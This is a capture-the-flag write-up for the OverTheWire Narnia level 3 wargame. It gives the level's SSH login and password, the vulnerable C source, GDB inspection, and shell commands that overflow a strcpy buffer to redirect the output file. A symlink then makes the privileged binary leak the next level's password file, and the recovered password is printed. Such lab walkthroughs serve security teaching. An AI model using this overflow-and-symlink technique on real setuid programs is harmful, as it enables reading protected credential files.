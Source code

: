 ## Login 

` SSH : ssh narnia3@narnia.labs.overthewire.org -p 2226 `
` Pass : 2xszzNl6uG `

## Solution

First, let’s try to execute the program…

```
$ ssh narnia3@narnia.labs.overthewire.org -p 2226

narnia3@narnia:~$ cd /narnia/
narnia3@narnia:/narnia$ ./narnia3
usage, ./narnia3 file, will send contents of file 2 /dev/null
```

So, I guess we need to enter a file as argument…
### Source Code

Here is the source :

```
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

    int  ifd,  ofd;
    char ofile[16] = "/dev/null";
    char ifile[32];
    char buf[32];

    if(argc != 2){
        printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
        exit(-1);
    }

    /* open files */
    strcpy(ifile, argv[1]);
    if((ofd = open(ofile,O_RDWR)) < 0 ){
        printf("error opening %s\n", ofile);
        exit(-1);
    }
    if((ifd = open(ifile, O_RDONLY)) < 0 ){
        printf("error opening %s\n", ifile);
        exit(-1);
    }

    /* copy from file1 to file2 */
    read(ifd, buf, sizeof(buf)-1);
    write(ofd,buf, sizeof(buf)-1);
    printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);

    /* close 'em */
    close(ifd);
    close(ofd);

    exit(1);
}
```

So, the source looks complex but it’s not. In fact there is no boundary check on the input file. So, if we overflow **ifile**, we could overwrite the **ofile** which is statically intialized with **/dev/null**.

Let’s check the value of **ofile** with GDB, to do that we need to place a breakpoint here :

```
   0x0804855f <+84>:	add    esp,0x8
   0x08048562 <+87>:	push   0x2
   0x08048564 <+89>:	lea    eax,[ebp-0x18]
   0x08048567 <+92>:	push   eax
   0x08048568 <+93>:	call   0x80483c0 <open@plt> ; Right Here
```

As **ofile** pointer will be place in **EAX** we can see its value :

```
$ gdb narnia3

(gdb) break *main+93
Breakpoint 1 at 0x8048568
(gdb) run test
Starting program: /narnia/narnia3 test

Breakpoint 1, 0x08048568 in main ()
(gdb) x/s $eax
0xffffd690:	"/dev/null"
```

Okay, now we restart the program with 32 bytes of garbage and add a new path…

```
(gdb) run /AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/whatever
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia3 /AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/whatever

Breakpoint 1, 0x08048568 in main ()
(gdb) x/s $eax
0xffffd660:	"/whatever"
```

Awesome! Now, we can write where we want. As **/tmp/** is read/write/exec we can create something like **/tmp/FOOBARFOOBARFOOBARFOOBARFOO/tmp** and create a _symbolic link_ of **/etc/narnia_pass/narnia4** to **/tmp/FOOBARFOOBARFOOBARFOOBARFOO/tmp/ax** file so the program can write the password into our file.

Here are the steps :

```
narnia3@narnia:/narnia$ mkdir -p /tmp/FOOBARFOOBARFOOBARFOOBARFOO/tmp
narnia3@narnia:/narnia$ ln -s /etc/narnia_pass/narnia4 /tmp/FOOBARFOOBARFOOBARFOOBARFOO/tmp/ax
narnia3@narnia:/narnia$ touch /tmp/ax
narnia3@narnia:/narnia$ chmod 777 /tmp/ax
narnia3@narnia:/narnia$ ./narnia3 /tmp/FOOBARFOOBARFOOBARFOOBARFOO/tmp/ax
copied contents of /tmp/FOOBARFOOBARFOOBARFOOBARFOO/tmp/ax to a safer place... (/tmp/ax)
narnia3@narnia:/narnia$ cat /tmp/ax
iqNWNk173q
```

It was a fun one :)